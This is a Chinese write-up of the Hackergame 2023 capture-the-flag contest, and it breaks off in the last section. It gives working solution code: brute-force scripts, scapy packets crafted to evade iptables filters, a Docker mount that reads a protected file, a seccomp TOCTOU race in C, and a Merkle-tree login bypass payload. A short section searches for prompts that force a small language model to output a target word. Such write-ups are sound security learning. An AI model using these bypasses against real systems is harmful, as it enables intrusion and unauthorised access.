

# 前言

从去年 [hackergame22](https://zztrans.github.io/p/hg2022/) 入门，零散打过几个比赛，对一些套路总算是有一些经验了。

今年参与 hackgame23 的程度似乎又更甚了，又学到了很多新东西，总之还是非常好玩！



本 writeup 会包括一些做题经历和感想碎碎念。

{}
未特别标注的源代码采用 [知识共享署名-非商业性使用-相同方式共享 4.0 国际许可协议](http://creativecommons.org/licenses/by-nc-sa/4.0/) 进行许可
{}

## Hackergame 启动

发现提交请求中的 `similarity` 的参数，尝试修改到 100 就可以了。

{}
开场动画很有感觉，当时看的我好乐！

Hackergame 启动！
{}

## 猫咪小测

1，猜想楼不会太高，手动枚举捏。

2，没听过鸡密度，有点玄，我使用了 burp intruder 来枚举。

3，找到了 [BBR](https://github.com/google/bbr/blob/master/Documentation/bbr-quick-start.md) 的教程。

4，在谷歌学术中搜索 `pyton type checking` 找到对应论文。

## 更深更暗

在 `main.js` 中找到了 `getflag` 的逻辑，控制台里重现一下，直接传自己 token 即可。

## 旅行照片 3.0

### 神秘奖牌

由图片上的小柴昌俊定位到诺奖和东京大学，搜索到 [日本的诺奖得主](https://baike.baidu.com/item/%E6%97%A5%E6%9C%AC%E8%AF%BA%E8%B4%9D%E5%B0%94%E5%A5%96%E8%8E%B7%E5%BE%97%E8%80%85/15765826)。

数量不多，逐一 check 他们的出生日期确认是梶田隆章，得到研究所 `ICRR` 。日期是通过爆破枚举得到了 `2023-08-10` 。

### 这是什么活动？

把帐篷照片丢进 google len，可以定位到 `上野公园` ，通过搜索 `8月10日上野公園` ，找到 [梅酒祭](https://tokyofesta.com/23ku/7108/) 活动。搜索 `全国梅酒まつりボランティア募集` ，得到 [志愿问卷相关](https://umeshu-matsuri.jp/tokyo_staff/)。第二题刚想爆破，居然是第一个就是，0 元购。

### 后会有期，学长！

第三问 ~~被学长~~ 折磨了很久捏。两个动物倒是很容易搜出来，对于这种地标生活向的，google 可能不太容易搜出来，直接很懂的在 twitter 搜索 `上野駅  ボタン＆カフリンクス` 就能找到粉红背景的 `熊猫` 。google len 搜索马里奥图片，大概得到出战处在涉谷，搜索 `涉谷3D动物` 很容易能找到 `秋田犬` 。对于地点，我不知道学长打算去哪里集合，臆测学长想去哪个 [码头](https://www.oricon.co.jp/news/2245114/full/) 坐船，因此在东京进行了云旅游，搜索了各种码头，各种地标，尝试了包括以下地标建筑：

> 台场公园 东京铁塔 彩虹大桥 箱根关所 明治神宫 新宿御苑 恩赐公园 水道桥店 台场海滨 海滨公园 自由女神 丰洲市场 羽田机场 京门大桥 日出码头 东京大学 浅草神社 浅草码头 濑户大桥 神户港塔 大鸣门桥 千叶港塔 国立剧场

但都未果，后来某天忽然意识到，中间似乎还有一句话，继续学术之旅，难不成是回学校集合？于是搜索 `东京大学地标` 得到了 `安田讲堂` 。

后来才知道学术之旅指的是一个学术会议，在图片中的衣服上有，很多细节都可以从这次学术会议找到，包括集合地点。

以下是爆破脚本，主要还是看 http 报文的交互情况进行一个修改。

{}
```python
import requests
from urllib import parse
import base64

def main():
    s = requests.Session()
    s.get("http://202.38.93.111:12345/?token=yourtoken")
    HEADERS = {'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8'}
    FormData = {"Answer3": 'S495584522', "Answer4": '0'}
    for money in range(10000):
            FormData['Answer4']=str(money)
            Data = parse.urlencode(FormData)
            print(Data)
            res=base64.b64encode(Data.encode())
            res+=b'.txt'
            print(res)
            ret = s.post("http://202.38.93.111:12345/", headers=HEADERS,data=res)
            print(f'{ret.text=}')
            if not "Not Found" in ret.text:
                print("found ! :",money)
                exit(0)

if __name__ == '__main__':
    main()
```
{}


## 赛博井字棋

在 burp 看了所有交互的报文，发现是通过 `Set-Cookie: session` 来维护交互的，就是把 response 的 session 给下一次 request，尝试手动造，后端并没有已填的限制，往对手填过的地方填就很容易拿到 flag。

## 奶奶的睡前 flag 故事

对 png 进行一顿操作，png 各种工具都上了，01editor 注意到两个 IEND，手动进行了一些骚操作，包括把第二个 IEND 到前面的 IDAT 拿出来重新搞一个 png 之类的，都未果。

后来回到题目给的粗体提示，搜索 `pixel截图bug` ，找到 [新闻稿](https://www.cnbeta.com.tw/articles/tech/1352423.htm)，确认是 `CVE-2023-21036` ，在 [Acropalypse](https://acropalypse.app/) 即可恢复。

## 组委会模拟器

在玩了一次之后，通过 burp 分析了交互的报文，理清了逻辑，写了一个 python 调用对应的 api 即可。

{}
```python
import time
import requests,json
import re

def main():
    s = requests.Session()
    start=time.time()
    s.get("http://202.38.93.111:10021/api/checkToken?token=yourtoken")
    ret=s.post("http://202.38.93.111:10021/api/getMessages")
    state=json.loads(ret.text)
    req=state['messages']
    id=0
    for line in req:
        tim = line['delay']
        if re.search('hack\[([a-z]+)\]', line['text']) != None:
            # print(line)
            # print(id)
            while True:
                delta=time.time()-start
                if delta > tim :
                    break
                time.sleep(0.5)
            ret=s.post("http://202.38.93.111:10021/api/deleteMessage",json={
                'id': id
            })
            state=json.loads(ret.text)
            print(state)
        id += 1
    ret=s.post("http://202.38.93.111:10021/api/getflag")
    state=json.loads(ret.text)
    print(state)

if __name__ == '__main__':
    main()
```
{}

## 虫

搜索 `wav传输图片 ctf` 找到类似题目的 [题解](https://j-kangel.github.io/2020/07/09/%E4%BB%8E%E4%B8%80%E9%81%93Misc%E5%88%B0%E5%AD%A6%E4%B9%A0%E7%99%BE%E4%B8%87%E6%B7%B7%E9%9F%B3/)，PC 使用 `MMSSTV` 未果，手机 `robot36` 接收外放的 wav 音频即可拿到。

{}
这好酷，在宿舍里叫大家来看，不愧是我。
{}

## JSON ⊂ YAML?

根据故事进行一些搜索，搜索 `json vs yaml 1.1 load different` ，在这个 [文章](https://stackoverflow.com/questions/21584985/what-valid-json-files-are-not-valid-yaml-1-1-files) 找到 `12345e999` ，后来尝试带 e 的就不一致？Yaml1.1 会认为是串，而 json 能解析成数字。

同时有说 `YAML 1.2 is (with one minor caveat regarding duplicate keys)` ，尝试 duplicate keys 即可通过 task2。

## Git? Git!

刚开始直接在 `git log` 的 commit 中查看 `diff` ，未找到可疑记录。根据背景故事，使用 `git reflog` 看操作历史，在某个 commit 中找到了 flag。

## HTTP 集邮册

收集到了 [100, 200, 206, 304, 400, 404, 405, 412, 413, 414, 416, 505]

使用 gpt 大法加上文档搜索，prompt: 什么样的 http 请求能让 Nginx 返回 XXX。

特殊的一些如下：

100 Expect: 100-continue

206 Partial Content , Range: bytes = 0-999

304 Not Modified  If-Modified-Since: Tue, 15 Aug 2023 17: 03: 04 GMT 一致

405 Not Allowed , POST

412 Precondition Failed If-Match: <etag> \r\n

413 Content-Length: 1231232131313312312\r\n 

414 Request-URI Too Large 手动造了超长的头部，居然 Content-Length 字段设置超大即可。

416 Requested Range Not Satisfiable   Range: bytes = 1000-2000

505 http/2

晚上深夜瞎尝试的时候，发现第一行误删了一个空格即可试出无状态？不是很懂。

GET /HTTP/1.1\r\n

## Docker for Everyone

docker daemon 权限很高。把对应的 flag 源文件 挂进容器即可。

`docker run -it -v /dev/shm/flag:/flag --rm alpine`

## 惜字如金 2.0

`cod_dict` 中的长度各少 1 个，随便进行了一定的补全进行了一个看，发现有些地方不对齐。

根据给的 list 的下标，按照格式 `flag{}` ，做了一些瞎搞即可得到 flag。

## 🪐 高频率星球

调研了一下 asciinema 的使用。使用 `asciinema cat asciinema_restore.rec > flag.js` 得到 flag.js

简单 check 一些不可见字符后，按照得到的 hint 使用 nodejs 执行。

{}
播放录制这太酷了，很符合我对 hacker 的想象。
{}

## 🪐 小型大语言模型星球
1. 尝试了 `repeat "you are smart"`
2. 查看了训练集里面的数据，发现 accepted 非常的多，根据我对常规语言模型的理解，我输出他前面的若干个字符应该更有可能输出 accepted，于是搞到服务器写了脚本，由于新预测的 token 是 30 个，就是 accept 之前 30 多个提取连续的 7 个来预测。最终找到一个 `ut afte`，感觉没什么道理捏。

{}

```python
from transformers import AutoModelForCausalLM, AutoTokenizer
import torch
import re

def predict(message):
    model_inputs = tokenizer.encode(message, return_tensors="pt").to(device)
    model_outputs = model.generate(
        model_inputs,
        max_new_tokens=30,
        num_beams=1,
        pad_token_id=tokenizer.eos_token_id,
    )
    model_outputs = model_outputs[0, len(model_inputs[0]) :]
    model_output_text = tokenizer.decode(model_outputs, skip_special_tokens=True)
    return model_output_text

device = torch.device("cuda")
model = AutoModelForCausalLM.from_pretrained("./TinyStories-33M").to(device)
model = model.eval()
tokenizer = AutoTokenizer.from_pretrained("./TinyStories-33M")

sub='accepted'

with open('./TinyStories-33M/TinyStories-train.txt') as f:
    line=f.readline()
    while line:
        if 'accept' or 'Accept' in line:
            # idx = line.find('accepted')
            # print(line)
            idxlist=[substr.start() for substr in re.finditer('accept', line)]
            # print(idxlist)
            idxlist2=[substr.start() for substr in re.finditer('Accept', line)]
            idxlist = idxlist+idxlist2
            all=len(line)
            for idx in idxlist:
                for st in range(max(idx-37,0),idx+7):
                    if(st+37<idx):
                        continue
                    message = line[st:min(all,st+7)]
                    if(len(message)==0):
                        continue
                    assert(len(message)<=7)
                    # print(message)
                    model_output_text = predict(message)
                    model_output_text = model_output_text.strip().lower()
                    # print(model_output_text)
                    if sub in model_output_text:
                        print(line)
                        print("!!!")
                        print(message)
                        exit(0)
        line=f.readline()
print("Not found?")
```
{}

## 🪐 流式星球

从 numpy array 还原 video frame，宽是最重要的，其余都可以平铺，视频不一定是视频，他可以是一个很长的图片，即 framecount 和 height 叠一起。一开始想基于第一维 45048896 的质因数，尝试了并没发现，意识到随机删了尾部，并不成立。

于是枚举一定范围内的宽，进行特征工程，发现 214 得到有语义的图片，就拿到了 flag。

<!--  -->

{}
赛后发现居然别人的宽都是 427？？？怪不得我看 213 和 214 都有点像有语义，同时有点奇怪，原来是没展完，反正我没往后面找就是了......
{}

## 🪐 低带宽星球
1. 直接找了个网站做了一下压缩就拿到了，还是一血。
2. 尝试了 [svg 语法压缩](https://github.com/Walikrence/-/blob/master/TODO/of-svg-minification-and-gzip.md)，甚至使用 gzip 居然也能被库识别，但是最多只到了 120B 左右，svg 似乎也得按三块来描述语法，似乎已达到了极限。没有深入研究后端这个可疑的 `pyvips` 库了。

147B 的 svg，经过 gzip 压缩可以到 120 多 B？

```xml
<svg><path fill="#e274b1" d="M0 0h317v1024H0"/><path fill="#ba3857" d="M317 0h409v1024H317"/><path fill="#d40f9d" d="M726 0h298v1024H726"/></svg>
```

## Komm, s ü sser Flagge

这题非常有教育意义，让我真正将 ip+tcp+http 协议真实的运作场景稍微实践了一下。(是不是计网实验没好好做，也许，确实，不管，可能是没学明白过)

### 我的 POST & 我的 P

iptables 过滤 check 的是每次的数据包，大概就是 [ip header+ tcp header + data]。

tcp 是流式连接，一旦建立起了连接两端就会有缓冲区，可以多次发送。于是把数据断开，把 'POST' 断开发送即可，可以使用 `pwntools` 模拟一个 POST 请求。

对于第二小题的过滤， `--u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" ` 。

进行了 u32 语法的学习，此处大概就是通过 u32 跳过 ip header，跳过 tcp header 到 data 段，取第一个字 >> 24 的部分，4 个字节一个字的情况下，第一字节不能是 `P` 。但如果不满一个字似乎就是 0 了，过滤失效，因此第一问的脚本也能过。但这里跳过 tcp header 的时候似乎少 & 了一个 mask，因此也导致了预期解中中改头部 `reserved` 字段的做法。

```python
from pwn import *
r=remote("202.38.93.111",18080)  # 18081 is ok
r.send(b'P')
r.send(b'OST / HTTP/1.1\r\nHost: 202.38.93.111:18080\r\nUser-Agent: curl/7.81.0\r\nAccept: */*\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nyourtoken')
ans=r.recv()
print(ans)
```

### 我的 GET

第三问，做了两条过滤要求，由于过滤的规则，满足第一条即可。

就是说这个所有的数据包前 50 字节必须带有 `GET / HTTP` 。已知 IP + TCP 的头部已经 40 字节。

首先我很直球的在数据部分开始带上了 `GET / HTTP` ，后面继续跟我的 POST，但未果，因为似乎在 HTTP1 中规定的请求响应模式都是 1 对 1 的。数据部分解析完一个 GET 请求估计就会把剩下的 POST 请求当作 http 的 data，然后就烂了，未指定 content-length 估计就是 400，指定了也无法达到 POST 的效果。

于是开始想在头部插入，我是在 TCP 头部 的 `option` 字段 插入的，直接将这部分作为 option，开始有点担心不能被 tcp 协议栈识别所拒绝，发现不被协议识别也是可以的，就是他不理解比如 `option` 字段的第一个字节， `kind=int('G')` 代表什么 tcp option，实践发现也是允许的。通过 offset 指定 data 段的开始即可。

对于数据包的定制，使用 scapy 进行了模拟，感受到了 scapy 的强大，真正模拟定制了三次握手。

```python
myseq=1111
first=IP(dst='202.38.93.111')/TCP(seq=myseq,flags='S',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"  # dataofs 指定数据部分的开始的字，实际乘*4

second=sr1(first)
second.show2()

myack=second[TCP].seq
third=IP(dst='202.38.93.111')/TCP(seq=myseq+1,ack=myack+1,window=65535,flags='A',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"
send(third)
# res2.show2()

http=IP(dst='202.38.93.111')/TCP(seq=myseq+1,ack=myack+1,window=65535,flags='PA',sport=61000,dport=18082,dataofs=8)/"GET / HTTPXX"/"POST / HTTP/1.1\r\nHost: 202.38.93.111:18082\r\nUser-Agent: curl/7.81.0\r\nAccept: */*\r\nContent-Length: 99\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nyourtoken"
r,u=sr(http,multi=True)  # 这样能够接收多个数据包，sr1 只能接受第一个只含 tcp 的数据包

r[0][1].summary # 一个 tcp 数据包
r[1][1].summary # 包含 http 请求的数据包
```

## 为什么要打开 /flag

### LD_PRELOAD, love!

通过改变 `ld_preload` 影响链接的库函数，只关系动态链接，于是静态链接即可。

编译使用 `gcc myread.c -static -o read` 。简单的读文件打印程序就不放了。

### 都是 seccomp 的错

seccomp 监控进程对于系统调用的访问，加了 hook 函数，看 main.rs 首行 [提示的文档](https://crates.io/crates/greenhook) 找到 `TOCTOU(Time-of-check to time-of-use)` 攻击。大概就是在 check 和真正读文件之间存在时间差，这个时间差是可以进行一些修改或者删除的。

通过 `opening_handler` 函数发现是通过 check path 中是否含有 `flag` 来劫持，那我们在这个 check 和真正读文件之间就可以修改。那么如何修改呢？注意到这个 hook 函数是通过线程执行的。常规的程序执行流程都是从前往后线性的，但是线程之间是会相互竞争的，而题目并没有限制线程，于是可以考虑用线程来修改读取的 path。

尝试了 c++ 的 thread，c 的 pthread， `strace` 一下发现系统调用都是 `clone3` ，连线程都进不去，似乎会被 ban 掉。

那只能用更底层的 clone 了，但我比赛里开了很多线程，每个线程都尝试把 path 进行一次反复横跳的修改，但失败了。

赛后看别的师傅的 wp 发现只要一个线程，在里面 for 循环的一直反复修改即可，不需要开很多线程，不然 detached 的模式可能导致每个线程很快结束，捕捉不到这个时机。

{}
```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>

#define STACK_SIZE 4096

char path[10] = "/xlag";

int func(void *arg) {
    for(int i=0;i<1000000;++i){
        path[1]='x';
        path[1]='f';
    }    
}

char buffer[256];

int main() {
    void *child_stack = malloc(STACK_SIZE);
    int thread_pid = clone(&func, child_stack+STACK_SIZE, CLONE_SIGHAND|CLONE_FS|CLONE_VM|CLONE_FILES, NULL);
    for(int i=0;i<10000;++i) {
        FILE* fd = fopen(path,"r");
        if (fd) {
            fgets(buffer, 256, fd);
            if(buffer[0]!='I') puts(buffer);
            fclose(fd);
        }
    }
    return 0;
}
```
{}


## 异星歧途

之前没玩过捏，进入游戏，首先判断大致是四个独立的部分，需要解 4 块东西让他通电。

首先尝试了 pwntools 直接交互枚举 $2^{32}$ 的解空间，发现服务器有限制请求间隔。无法直接暴力。对于 part3 瞎按可能会爆炸，part4 比较安全。

于是我一进来就被 part4 吸引住了，感觉这部分没有什么好的办法，可以在游戏里枚举，于是边看世界赛直播边枚举...... 手玩了好久找到了能使得电路通电的解。

做 part1 和 part2 的时候我发现了居然有 `逻辑处理器` 这种方块，因为各种按钮总需要绑定事件的，点开来看一下，发现内容类似汇编，可以阅读判断逻辑。

part3 玩了小半天，大致发现就是要供水，供冷冻，不要让热量太高即可。最优策略应该是用脚本暴力枚举 part4 和服务器交互？

附上一张冲击反应堆的图(莓樂)，我还指望他电力充满发生点什么捏。

<!--  -->

## 逆向工程不需要 F5

由于第一次做这种题，做了几乎一整天，感觉非常不适。(~~🐕都不做捏~~

丢进 IDA，发现各种 外部引用 dll 导致没法直接 F5 读源码。

用 x64dbg 进行逐步结构硬读汇编逻辑，此处省略一下午的折磨，整理的笔记大概都是摘拆一些子 dll 的汇编，也没有很好的帮助。但在单步中循环的痕迹很明显，和一个栈上变量 cmp 来 jump，中间进行了一些运算，但我反应比较慢，经验丰富应该能够很快发现。

从全局来看就是若干混淆之后做 check。主要包括分块进行 无符号乘法溢出 和 异或两种操作，基本都是分块的，由于选取的乘数在对应字长下存在逆元，于是都可以逆向。

了解了大致逻辑就直接开始逆向算法的编写，把最后的 data 从文件中搞出来，按照理解编写逆向代码，很显然存在很多 bug 要修，修完之后还是不对，我于是把正向的代码也给实现了，发现正反向都对了，还是没找到可见的 flag 出来。说明我对正向过程理解有问题。

那只好进动态调试来搞，看栈上的 flag 对应的值的情况，输入瞎手造示例 flag，单步调试看栈上对应的 flag 每一轮的变化，和我预想的正向哪里不一致，发现乘数居然会修改，这是我之前读漏的部分，于是加上这个逻辑就对了。

{}
```C++
#include <bits/stdc++.h>
using namespace std; 
typedef unsigned __int128 uint128_t; 

uint8_t ans[32]={ //偷出来的data

    127, 226, 58, 49, 203, 159, 161, 90, 250, 22, 54, 121, 229, 212, 17, 161, 207, 44, 126, 145, 65, 255, 212, 229, 211, 180, 154, 175, 40, 79, 100, 202

}; 

uint8_t stage1[32], stage2[32], stage3[32], stage4[32], stage5[32]; 

bool check5(uint8_t *a, uint8_t* b) {//以下是正向的 check 实现，check3和1似乎有一些bug，懒得修了..

    for(int i=0;i<32;++i) {
        uint8_t res= a[i] * 0x21;
        res =  res * 0x23;
        res =  res * 0x25;
        res =  res * 0x27;
        if(res != b[i]) return false;
    }

    return true;

}

bool check4(uint8_t *a, uint8_t* b) {

    for(int i=0;i<32;i+=2) {
        uint16_t tmp= uint16_t(a[i+1])<<8 | a[i];
        tmp ^= 0xCDEC;
        uint16_t tmp2= uint16_t(b[i+1])<<8 | b[i];
        if(tmp!=tmp2) return false;
    }

    return true;

}

bool check3(uint8_t *a, uint8_t* b) {

    uint32_t tar=0xDEADBEEF;
    for(int t=0;t<4;++t) {
        for(int i=0;i<32;i+=4) {
            uint32_t tmp= uint32_t(a[i+3])<<24 | uint32_t(a[i+2])<<16 | uint32_t(a[i+1])<<8 | uint32_t(a[i]);
            tmp *= tar;
            a[i]= tmp & 0xFF;
            a[i+1]= (tmp>>8) & 0xFF;
            a[i+2]= (tmp>>16) & 0xFF;
            a[i+3]= (tmp>>24) & 0xFF;
            if(t==3) {
                uint32_t tmp2= uint32_t(b[i+3])<<24 | uint32_t(b[i+2])<<16 | uint32_t(b[i+1])<<8 | uint32_t(b[i]);
                if(tmp!=tmp2) return false;
            }
        }
        tar-=0x4;
    }

    return true;

}

bool check2(uint8_t *a, uint8_t* b) {

    for(int i=0;i<32;i+=8) {
        uint64_t tmp=0;
        for(int j=0;j<8;++j) tmp |= (uint64_t(a[i+j]) << (8*j));
        tmp ^= uint64_t(0x7A026655FD263677);
        uint64_t tmp2=0;
        for(int j=0;j<8;++j) tmp2 |= (uint64_t(b[i+j]) << (8*j));
        if(tmp!=tmp2) return false;
    }

    return true;

}

bool check1(uint8_t *a, uint8_t* b) {

    uint64_t tar=0x55AA00FF;
    for(int t=0;t<4;++t) {
        for(int i=0;i<32;i+=16) {
            uint64_t tmp=0;
            for(int j=0;j<8;++j) tmp |= (uint64_t(a[i+j]) << (8*j) );
            uint64_t tmp1=0;
            for(int j=0;j<8;++j) tmp1 |= (uint64_t(a[i+8+j]) << (8*j));
            uint128_t ans= uint128_t(tmp)*tar;
            tmp = ans&(0xFFFFFFFFFFFFFFFF);
            uint64_t upflow=ans>>64;

            tmp1= tmp1*tar; 
            tmp1 = tmp1+upflow; 
            for(int j=0; j<8; ++j) a[i+j]= ( (tmp >> (8*j)) & (0xFF) ); 
            for(int j=0; j<8; ++j) a[i+8+j]= ( (tmp1 >> (8*j)) & (0xFF) ); 
            if(t==3) {
                uint64_t tmp3=0; 
                for(int j=0; j<8; ++j) tmp3 |= (uint64_t(b[i+j]) << (8*j)); 
                uint64_t tmp4=0; 
                for(int j=0; j<8; ++j) tmp4 |= (uint64_t(b[i+8+j]) << (8*j)); 
                if(tmp!=tmp3 || tmp1!=tmp4) return false; 
            }
        }
        tar-=0x10; 
    }

    return true;

}

int main() {

    for(int j=0;j<32;++j) {  //逆向  第一部分没注意到可以逆元，于是写了个暴力
        uint8_t tar=ans[j];
        bool flag=0;
        for(uint8_t i=0;;) {
            uint8_t res= i * 0x21;
            res =  res * 0x23;
            res =  res * 0x25;
            res =  res * 0x27;
            if(res == tar) {
                if(flag) {
                    cout<<" dup\n";
                    exit(0);
                }
                stage1[j]=i;
                flag=1;
            }
            if(i==255) break;
            ++i;
        }
    }
    assert(check5(stage1,ans));

    for(int i=0;i<32;++i) stage2[i]=stage1[i];
    for(int i=0;i<32;i+=2) {
        stage2[i] ^= 0xEC;
        stage2[i+1] ^= 0xCD;
    }
    assert(check4(stage2,stage1));

    uint32_t inv1[4]={2153739979,592213207,2912942531,2420846607};
    for(int i=0;i<32;++i) stage3[i]=stage2[i];
    for(int t=0;t<4;++t) {
        for(int i=0;i<32;i+=4) {
            uint32_t tmp= uint32_t(stage3[i+3])<<24 | uint32_t(stage3[i+2])<<16 | uint32_t(stage3[i+1])<<8 | uint32_t(stage3[i]);
            uint32_t res = tmp * inv1[t];  // invert(0xDEADBEEF,1<<32)
            stage3[i]= res & 0xFF;
            stage3[i+1]= (res>>8) & 0xFF;
            stage3[i+2]= (res>>16) & 0xFF;
            stage3[i+3]= (res>>24) & 0xFF;
        }
    }
    // assert(check3(stage3,stage2));

    for(int i=0;i<32;++i) stage4[i]=stage3[i];
    uint64_t tar=0x7A026655FD263677;
    for(int i=0;i<32;i+=8) {
        for (int j=0;j<8;++j)
            stage4[i+j] ^=  ( (tar>> (j*8) ) & 0xFF );
    }
    // assert(check2(stage4,stage3));

    for(int i=0;i<32;++i) stage5[i]=stage4[i];
    tar=0x55AA00CF;
    uint64_t inv2[4]={1323818120861386287,7230929935682616095,1376074585968029199,11595735986311855871};
    for(int t=0;t<4;++t) {
        for(int k=0;k<2;++k) {
            uint64_t a=0,b=0;
            for(int j=0;j<8;++j) a |= (uint64_t(stage5[16*k+j]) << (8*j));
            for(int j=0;j<8;++j) b |= (uint64_t(stage5[16*k+j+8]) << (8*j));

            uint64_t inv= inv2[t]; // print(invert(0x55AA00FF,1<<64))

            uint64_t res1= a*inv; 
            uint64_t upflow= ( uint128_t(res1) * uint128_t(tar)) >>64;
            b= b - upflow;

            uint64_t res2=b*inv;
            
            for(int j=0;j<8;++j) {
                stage5[16*k+j]= (res1 >> (8*j) ) & (0xFF);
                stage5[16*k+j+8]= (res2 >> (8*j) ) & (0xFF);
            }
        }
        tar += 0x10;
    }
    // assert(check1(stage5,stage4));

    for(int i=0;i<32;++i) cout<<char(stage5[i]);
    return 0;
}

```
{}


确实是我的做的通过人最少的一道题？真的折磨捏。

## O(1) 用户登录系统

`Merkel tree`，刚开始感觉很安全，依赖于构造出 `admin:` 的 SHA1 碰撞例子，经查询发现现有技术应该还是办不到。

从维基百科中发现这样一个 attack，`The Merkle hash root does not indicate the tree depth, enabling a second-preimage attack in which an attacker creates a document other than the original that has the same Merkle hash root.` 显然提示可以构造不同树高但是树根之类的 hash 都一致的 Merkel tree。

于是思路来了，暴力 `admin:xxx` 和 第一个 proof 片段 concatenate 结合的 hash 值，为 包含 `:` 的 20 个可打印字符，将他作为我原本的用户输入，但考虑到树上的都是 hash 值，还要将他上树，想了一会儿，发现于是可以再加一层，即他的邻居结点继续接东西作为 proof 给他，这样注册的时候该结点作为 username 的前缀或者 password 的后缀都可以！于是想通了就很简单，通过各种枚举，包括 admin 后面的 password，找一个上述的 hash 也不难。

找碰撞的代码：

{}
```python
import itertools
from hashlib import sha1

def is_visible_utf8(byte_sequence):
    try:
        decoded_string = byte_sequence.decode('utf-8')
        return all(char.isprintable() for char in decoded_string)
    except UnicodeDecodeError:
        return False

start =b'admin:7'
hash1=sha1(start).digest()
print(hash1.hex())

current = start
while True:
    hash2=sha1(current).digest()
    if hash1 > hash2:
        h = sha1(hash2 + hash1).digest() 
    else :
        h = sha1(hash1 + hash2).digest() 
    if 0x3a in h:
        if is_visible_utf8(h):
            print(start)
            print(hash1)
            print(hash2)
            print(hash1.hex())
            print(hash2.hex())
            break
    current = h
```
{}


一个登录的 payload 例子：

```python
 register user:
3 }4İǥϘ59JE9:)~T`zzzzzzzzzzzzzzzzzzzz:dcea6d9ccd3d20ba1549f6d9b5dde60742158882                                                                                                                     
a:b:0fd1c452ea25c8f71673f776f8458703c58c604d

# bypass:
admin:7:384e0d0d7f2a940b7bb4a7de6313aa71c4de8bef7a7a7a7a7a7a7a7a7a7a7a7a7a7a7a7a7a7a7a7adcea6d9ccd3d20ba1549f6d9b5dde60742158882
```

## 小 Z 的谜题

首先条件 1 可以忽略，大不了最后按限制排序，对于条件 2 和 3 刚开始没想到怎么理解。

看到题目就想写 dfs，但肯定没那么简单，刚开始写了个 naive 的 dfs，挂了一天似乎没有找到解的迹象。

领悟了很久限制条件，是一个三维空间的搭积木模型，16 个限制是 16 个小方块填在 0 到 5 的坐标中，条件 3 的限制分别对应边长，能修改的是坐标，条件 2 是对应任意两个方块至少有一维有偏序，因为空间上要错开，这就能完美解释这些限制。

基于这个模型，可以优先填体积更大的积木，于是就可以很快的找到解，但是找 157 的解还是比较艰难，以下大约需要 1h？

dfs 剪枝大力出奇迹可以得到所有答案。

{}

```C++
#include <bits/stdc++.h>
using namespace std; 
typedef vector<int> vi; 
#define pb push_back
#define all(v) (v).begin(), (v).end()

int ans[16][3][3]; 
int tar=16, cnt=0; 
vector<vector<int> >constraints; 

bool check(int n) {

    for(int i=0;i<n;++i) {
        bool ok=0;
        for(int k=0;k<3;++k) {
            if (ans[i][k][1] <= ans[n][k][0] or ans[n][k][1] <= ans[i][k][0]) {
                ok=1;
                break;
            }
        }
        if(!ok) return 0;
    }
    return 1;

}

int score[7][7][7]; 
int getscore() { // for i in range(num_constraints) for x, y, z in itertools.product(*arrange[i])

    memset(score,0,sizeof(score));
    int res=0;
    for(int i=0;i<16;++i) {
        for(int j=0;j<3;++j) {
            for(int k=0;k<3;++k) {
                for(int l=0;l<3;++l) {
                    int a=ans[i][0][j],b=ans[i][1][k],c=ans[i][2][l];
                    a++;
                    b++;
                    c++;
                    score[a][b][c]++;
                    if(score[a][b][c]==1) res++;
                }
            }
        }
    }
    return res;
    

}
void dfs(int n) {

    if(n>=tar) {
        cnt++;
        int cc=getscore();
        cout<<cc<<endl;
        if(cc>=157) {
            for(int i=0;i<n;++i) for(int j=0;j<3;++j) cout<<ans[i][j][0]<<ans[i][j][1];
            cout<<' '<<endl;
            exit(0);
        }
        return;
    }
    vi curp=constraints[n];
    do{
        for(int i=0;i+curp[0]<=5;++i) {
            ans[n][0][0]=i;
            ans[n][0][1]=i+curp[0];
            for(int j=0;j+curp[1]<=5;++j) {
                ans[n][1][0]=j;
                ans[n][1][1]=j+curp[1];
                for(int k=0;k+curp[2]<=5;++k) {
                    ans[n][2][0]=k;
                    ans[n][2][1]=k+curp[2];
                    if(check(n)) {
                        dfs(n+1);
                    }
                }
            }

        }
    }while(next_permutation(all(curp)));
    return;

}

int main() {

    for(int i=0;i<16;++i) for(int j=0;j<3;++j) ans[i][j][2]=-1;
    vi p(3,1);
    p[0]= 1 ,p[1]= 4 ,p[2]= 4 ;
    for(int i=0;i<2;++i) constraints.pb(p);
    p[0]= 2 ,p[1]= 2 ,p[2]= 3 ;
    for(int i=0;i<3;++i) constraints.pb(p);
    p[0]= 2 ,p[1]= 2 ,p[2]= 2 ;
    for(int i=0;i<2;++i) constraints.pb(p);
    p[0]= 1 ,p[1]= 2 ,p[2]= 4 ;
    for(int i=0;i<2;++i) constraints.pb(p);
    p[0]= 1 ,p[1]= 2 ,p[2]= 2 ;
    for(int i=0;i<4;++i) constraints.pb(p);
    p[0]= 1 ,p[1]= 1 ,p[2]= 3 ;
    for(int i=0;i<3;++i) constraints.pb(p);
    dfs(0);
    print(cnt);
    return 0;
}
```
{}

## 不可加密的异世界 2

### 希尔混淆

由于数理基础没那么扎实，感觉 ~~大力瞎~~ 搞 了一个非预期。

首先还是针对混淆，是将明文 xor 上一个东西，我开始想的就是明文的某个字符进行差分，考虑其影响，然后 check，怎么 check 呢？

刚开始想的是基于 +1 来 check，发现没什么道理，对 xor 1 可能就有道理了。

考虑一次交互爆破一个第 `i` 个字符，第 `i` 的字符其实只跟矩阵的第 `i` 列有关，我可以得到这个字符上所有取值的解，考虑猜测这个字符是 `guess`，那么对应的下标只要 `^guess^x` 就能得到明文的 `x` 作为输入得到的结果，其实就是 $kx+b=y(mod 257)$，这里 $k$ 指是对应矩阵 第 `j` 行 的值， $b$ 指的是剩下与 第 `i` 个字符无关的值。

